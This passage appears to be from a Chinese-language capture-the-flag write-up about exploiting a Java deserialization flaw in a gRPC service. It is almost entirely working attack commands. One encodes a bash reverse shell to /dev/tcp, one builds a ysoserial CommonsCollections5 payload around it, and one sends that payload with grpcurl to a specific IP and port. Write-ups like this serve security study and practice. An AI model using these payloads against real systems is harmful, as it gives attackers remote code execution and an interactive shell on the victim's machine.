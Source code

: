 搜索猜测应该是 Java 的反序列化

什么信息都没有，使用 `yoserial-all.jar` 打了 CC5，发现能通

```plain
echo 'bash -i >& /dev/tcp/your_ip/your_port 0>&1' | base64

# xxx 为上一条命令的输出
java -jar ysoserial-all.jar CommonsCollections5 'bash -c {echo,xxxxxx}|{base64,-d}|{bash,-i}'|base64

# xxx 为上一条命令的输出（注意删除 base64 输出自带的\n）
docker run fullstorydev/grpcurl -plaintext -d '{"serializeData":"xxx"}' 39.106.48.123:39628 helloworld.Greeter.ProcessMsg
```

[![](assets/1705540469-4956b2f46d6955ae1a83c5e49be1b2dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240115172224-981e4e48-b387-1.png)

## Misc
